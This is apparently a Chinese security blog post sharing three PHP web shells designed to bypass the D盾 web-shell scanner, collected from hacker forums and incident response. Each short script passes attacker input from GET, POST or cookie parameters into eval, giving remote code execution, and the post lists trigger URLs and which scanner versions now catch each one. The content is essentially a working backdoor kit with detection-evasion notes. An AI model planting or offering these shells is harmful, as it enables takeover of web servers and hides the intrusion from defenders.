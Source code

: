 ```yaml
---
layout: post
title: PHP WebShell [过D][更新至2019-04-19]
tags: [工具]
comments: true
---
```


日常积累，来源自T00ls论坛、先知社区、朋友分享、应急等.
D盾v2.1.4.9

> post ?1=phpinfo();

```
<?php

function b(){
    $a = $_POST[1];
    return $a;
}

function a(){
  eval(b());
}

a();
```

![201900509_1.php](https://cijian00.github.io/img/shell_share/20190509_1.png)


> /?1=phpinfo();(已失效 - 2.1.4.9)

```
<?php
$m=$_GET['1'];
$a=mb_substr($m,0,1);
$b=mb_substr($m,1,9999);
eval($a.$b);
?>
```

![20190419.php](https://cijian00.github.io/img/shell_share/20190419.png)



> /?jsha=phpinfo(); (已失效 - 2.1.4.8)


```
<?php
function _strint($key){
        return strrev($key);
}
function log1($log){
        lone(_strint(strrev($log)));
}
function lone($key){
        $str = "";
        return eval($str.$key.$str);
}
foreach (array('_COOKIE','_POST','_GET') as $_request)
{
    foreach ($$_request as $_key=>$_value)
    {
        $$_key=  $_value;
    }
}
$id = isset($jsha) ? $id : 2;
log1($jsha);
?>
```


>效果图


![jsha.php](https://cijian00.github.io/img/shell_share/jsha-php.png)
